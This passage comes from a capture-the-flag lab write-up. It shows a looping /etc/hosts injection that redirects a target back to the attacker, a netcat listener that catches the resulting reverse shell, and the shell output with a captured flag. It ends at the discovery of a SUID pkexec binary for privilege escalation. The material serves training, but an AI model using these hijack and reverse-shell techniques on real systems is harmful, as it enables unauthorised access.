 ```bash
blue@red:~$ while true; do echo '10.11.19.145 redrules.thm' >> /etc/hosts; sleep 1; done &
```

Waited a while for the DNS cache to update and got a shell

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.136.223] 33430
bash: cannot set terminal process group (16710): Inappropriate ioctl for device
bash: no job control in this shell
red@red:~$ id
id
uid=1001(red) gid=1001(red) groups=1001(red)
red@red:~$ ls -la
ls -la
total 36
drwxr-xr-x 4 root red  4096 Aug 17  2022 .
drwxr-xr-x 4 root root 4096 Aug 14  2022 ..
lrwxrwxrwx 1 root root    9 Aug 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 red  red   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 red  red  3771 Feb 25  2020 .bashrc
drwx------ 2 red  red  4096 Aug 14  2022 .cache
-rw-r----- 1 root red    41 Aug 14  2022 flag2
drwxr-x--- 2 red  red  4096 Aug 14  2022 .git
-rw-r--r-- 1 red  red   807 Aug 14  2022 .profile
-rw-rw-r-- 1 red  red    75 Aug 14  2022 .selected_editor
-rw------- 1 red  red     0 Aug 17  2022 .viminfo
red@red:~$ cat flag2
cat flag2
THM{Y0u_won't_mak3_IT_furTH3r_th@n_th1S}
```


## From red to root


### pkexec in abnormal directory

`.git` folder is really weird, inside it the `pkexec` have SUID set

```bash
red@red:~$ find .git
find .git
.git
.git/pkexec

file .git/pkexec
.git/pkexec: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=81dfad0b2cd8c2bb03db266cb98ca59931c530f9, for GNU/Linux 3.2.0, stripped
```
